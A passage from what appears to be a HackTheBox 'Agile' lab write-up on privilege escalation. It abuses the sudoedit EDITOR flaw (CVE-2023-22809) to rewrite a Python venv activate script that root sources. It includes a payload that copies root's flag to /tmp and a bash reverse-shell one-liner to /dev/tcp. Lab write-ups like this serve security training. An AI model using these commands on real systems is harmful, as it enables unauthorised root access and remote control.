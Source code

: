 Checking the sudo version 1.9.9, we know that it is vulnerable to ` CVE-2023-22809`

```bash
export EDITOR="vim -p */any file/*"
sudoedit /app/config_test.json
```

With PsPy64 we can find an interesting process:

```bash
CMD: UID=0	PID=21811	|	/bin/bash -c source /app/venv/bin/activate
edwards@agile://$ ls -lh /app/venv/bin/activate
-rw-rw-r-- 1 root dev_admin 2.0K Jun 19 04:00 /app/venv/bin/activate
```

So the group `dev_admin` can write the `activate`.

```
#exploit as edwards
export EDITOR="vim -p /app/venv/bin/activate"
sudo -u dev_admin sudoedit /app/config_test.json
######OR
export EDITOR="vi -- /app/venv/bin/activate"
sudo -u dev_admin sudoedit /app/config_test.json
```

![](/home/meta9/thng01.github.io/assets/CTFs/HackTheBox/agile_vim.png)

And we got into the `activate` file. Now we can modify it to whatever we want. I just simply leak the content of root.txt and that's it!

```bash
#!/bin/bash
cp /root/root.txt /tmp
chmod 666 /tmp/root.txt
```

Or, a root rev shell:

```bash
bash -i >& /dev/tcp/IP/4242 0>&1
```

And we got the flag root.txt.

```bash
edwards@agile://tmp$ cat /tmp/root.txt 
f9eb242e98afa7c58ae6XXXXXXXXX
```


